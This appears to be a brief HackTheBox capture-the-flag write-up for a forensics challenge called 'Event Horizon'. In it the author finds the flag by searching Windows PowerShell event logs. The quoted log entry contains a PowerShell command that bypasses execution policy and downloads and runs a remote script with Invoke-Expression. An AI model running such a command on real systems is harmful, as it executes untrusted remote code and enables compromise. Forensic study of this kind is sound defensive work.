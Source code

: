 # Event Horizon

Completed: Yes
Date: July 2, 2021 → July 2, 2021
Platform: HackTheBox

After unzipping the archive, you will receive a lot of windows events files which is difficult to view.

The challenge gives us a hint. It said about powershell. Firstly, I was moving from one file to another until I used the hint and started to look at powershell files. Just did `cat Microsoft-Windows-Powershell*`. And in the end, found this artifact:

```
Host Name = ConsoleHost
        Host Version = 5.1.17763.1
        Host ID = 0612d79d-bc7f-490c-b3aa-f6952382ae8b
        Host Application = powershell -ep bypass -c iex(new-object net.webclient).downloadstring('<https://gist.githubusercontent.com/hiddenblueteamer/b1dab4113e5d0b2ed4dfa02d7853aef0/raw/ac9327b6603a911057fed868e725f7cf5a52bca4/SFRCezhMdTNfNzM0bV9GMHIzdjNSfSAg.ps1>')
        Engine Version = 5.1.17763.1
        Runspace ID = fbda02b4-bb53-4ee2-9883-c9c88304077e
        Pipeline ID = 1
        Command Name = Invoke-Expression
        Command Type = Cmdlet
        Script Name =
        Command Path =
        Sequence Number = 15
        User = WIN-PTFPHFCRDJ0\\user
        Connected User =
        Shell ID = Microsoft.PowerShell

```

Thus, the attacker just downloaded the PowerShell file from Github. The name of the file is an encoded flag.